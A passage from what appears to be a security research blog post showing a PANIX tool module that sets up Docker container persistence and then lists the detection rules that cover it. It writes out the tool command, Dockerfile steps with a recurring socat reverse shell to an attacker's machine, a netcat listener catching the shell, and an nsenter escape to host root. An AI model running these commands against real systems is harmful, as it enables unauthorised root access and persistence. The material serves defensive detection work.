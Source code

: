 ```
sudo ./panix.sh --malicious-container --ip 192.168.100.1 --port 2021

 => [1/5] FROM [installing ...]
 => [2/5] RUN apk add --no-cache bash socat sudo util-linux procps
 => [3/5] RUN adduser -D lowprivuser
 => [4/5] RUN echo '#!/bin/bash' > /usr/local/bin/entrypoint.sh && echo 'while true; do /bin/bash -c "socat exec:
 => [5/5] RUN echo '#!/bin/bash' > /usr/local/bin/escape.sh && echo 'sudo nsenter -t 1 -m -u -i -n -p -- su -'

9543f7ce4c6a8defcad36358f00eb4d38a85a8688cc8ecd5f15a5a2d3f43383b

[+] Malicious Docker container created and running.
[+] Reverse shell is executed every minute.
[+] To escape the container with root privileges, run '/usr/local/bin/escape.sh'.
[+] Docker container persistence established!
```

After catching the shell on the attacker’s machine, run the `/usr/local/bin/escape.sh` script to escape the container:

```
❯ nc -nvlp 2021
listening on [any] 2021 ...
connect to [192.168.211.131] from (UNKNOWN) [192.168.211.151] 44726

9543f7ce4c6a:/$ /usr/local/bin/escape.sh
root@debian10-persistence:~# hostname
debian10-persistence
```

Upon execution, the following logs are generated:

![PANIX malicious-container module execution visualized in Kibana](/assets/images/approaching-the-summit-on-persistence/image6.png)

The execution of `panix.sh` initiates the creation of the `/tmp/Dockerfile`. The build command is then executed to create the container based on the specified configuration. Once built, the container is launched with the `--privileged` and `--pid=host` flags, enabling the necessary capabilities for host escape. Upon startup, the container runs the `/usr/local/bin/entrypoint.sh` script, which successfully establishes a reverse shell connection to the attacker’s machine using `socat`. After the shell is caught, the `/usr/local/bin/escape.sh` script is executed, effectively breaking out of the container and gaining access to the host.

Let’s take a look at the coverage:

*Detection and endpoint rules that cover malicious Docker container persistence*

| Category | Coverage |
| :---- | :---- |
| Process | [Privileged Docker Container Creation](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/execution_potentially_overly_permissive_container_creation.toml) <br />[Docker Escape via Nsenter](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/privilege_escalation_docker_escape_via_nsenter.toml) <br /> [Potential Chroot Container Escape via Mount](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/privilege_escalation_docker_mount_chroot_container_escape.toml) <br /> [Potential Privilege Escalation via Container Misconfiguration](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/privilege_escalation_container_util_misconfiguration.toml) <br /> [Potential Privilege Escalation through Writable Docker Socket](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/privilege_escalation_writable_docker_socket.toml) |
| Network | [Egress Connection from Entrypoint in Container](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/execution_egress_connection_from_entrypoint_in_container.toml) |

Besides the rules mentioned above, we also have a dedicated set of container rules that leverages our [Defend for Containers integration](https://www.elastic.co/guide/en/integrations/current/cloud_defend.html), which can be found in the [cloud_defend](https://github.com/elastic/detection-rules/tree/main/rules/integrations/cloud_defend) directory of our [detection-rules repository](https://github.com/elastic/detection-rules). We have also extended our protections through the integration of Falco with Elastic Security. This integration significantly enhances threat detection directly at the edge — whether in Docker containers, Kubernetes clusters, Linux virtual machines, or bare metal environments. By introducing dedicated Falco connectors, we've strengthened Elastic's capabilities to improve cloud workload protection and endpoint security strategies.
